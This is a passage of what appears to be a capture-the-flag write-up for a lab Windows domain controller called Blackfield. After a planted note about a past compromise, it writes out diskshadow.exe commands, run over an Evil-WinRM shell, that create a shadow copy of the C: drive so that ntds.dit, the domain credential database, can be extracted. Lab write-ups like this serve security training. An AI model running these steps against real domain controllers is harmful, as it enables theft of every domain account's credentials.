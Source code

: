 On the c drive we find the following note.

```terminal
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

Since we couldn't find anything on sam, let's get ntds.dit file instead.

### DiskShadow

First, let's run the following commands to create text file with the necessary commands that will be used by diskshadow.exe to create a shadow disk

```shell
echo "set context persistent nowriters" | out-file C:/windows/temp/diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file C:/windows/temp/diskshadow.txt -encoding ascii -append
echo "create" | out-file C:/windows/temp/diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file C:/windows/temp/diskshadow.txt -encoding ascii -append
```

Now let's pass the file to `diskshadow`

```powershell
diskshadow.exe /s C:\windows\temp\diskshadow.txt
```

```terminal
*Evil-WinRM* PS C:\windows\temp> diskshadow.exe /s c:\windows\temp\diskshadow.txt     
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  7/15/2025 8:16:14 PM                                                      
                                                                                               
-> set context persistent nowriters                                                            
-> add volume c: alias temp                                                                    
-> create                                                                                      
Alias temp for shadow ID {5ec1bfb7-7229-4f02-b4ac-2245835c57c3} set as environment variable.   
Alias VSS_SHADOW_SET for shadow set ID {b3254cfe-7a33-4f4a-aade-1f403cf2e8a3} set as environment variable.                                                                                    

Querying all shadow copies with the shadow copy set ID {b3254cfe-7a33-4f4a-aade-1f403cf2e8a3}                                                                                                 

        * Shadow copy ID = {5ec1bfb7-7229-4f02-b4ac-2245835c57c3}               %temp%
                - Shadow copy set: {b3254cfe-7a33-4f4a-aade-1f403cf2e8a3}       %VSS_SHADOW_SET%                                                                                              
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]                                                                                               
                - Creation time: 7/15/2025 8:16:16 PM                                          
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1                                                                                                    
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

```